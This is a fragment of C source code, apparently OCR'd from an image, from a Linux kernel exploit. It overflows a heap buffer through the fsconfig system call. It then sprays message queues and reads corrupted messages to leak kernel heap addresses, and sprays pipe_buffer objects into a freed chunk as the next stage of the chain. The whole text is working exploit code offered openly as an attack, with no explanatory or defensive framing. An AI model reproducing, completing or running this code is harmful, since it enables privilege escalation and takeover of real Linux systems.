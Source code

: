 ```c

    puts("[*] Overflowing...");
    pat[21] = '\x00';
    char evil[] = "\x60\x19";
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0);
    puts("[*] Done heap overflow");

    size = 0x1960;
    puts("[*] Receiving corrupted size and leak data");
    // go through all targets qids and check if we hopefully get a leak
    for (int i = 0; i < H_SPRAY; i++) 
    {
        get_msg(targets[i], recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
        for (int j = 0x202; j < 0x202 + (0x1960-0x1010) / 8; j++)
        {
            uint64_t *dump = (uint64_t *)recieved;
            if (dump[j] == 0x2 && dump[j+1] == 0x10 && dump[j+4] == dump[j+5])
            {
                kmalloc_1024 = dump[j-2];
                kmalloc_512 = dump[j-1];

                // delete chunk 1024, chunk 512 already has sprayed pivots
                uint8_t target_idx = (dump[j+4] & 0xff) - 1;

                get_msg(linked_msg[target_idx], recieved, 0x400 - 0x30, 3, IPC_NOWAIT | MSG_NOERROR);

                // spray to replace with pipe_buffer, thanks LIFO!
                for (int k = 0; k < PIPES; k++)
                {
                    if (pipe(pipefd[k]) < 0)
                    {
                        perror("pipe failed");
                        exit(-1);
                    }
                    write(pipefd[k][1], "pwnage", 7);
                }
                break;
            }
        }
        if (kmalloc_1024 != 0)
        {
            break;
        }
    }
    close(fd);

    if (!kmalloc_1024)
    {
        puts("[X] No leaks, trying again");
        stuff_4k(16);
        return leaks;
    }
    leaks.kmalloc_1024_leak = kmalloc_1024;
    leaks.kmalloc_512_leak = kmalloc_512;
    return leaks;
}
```
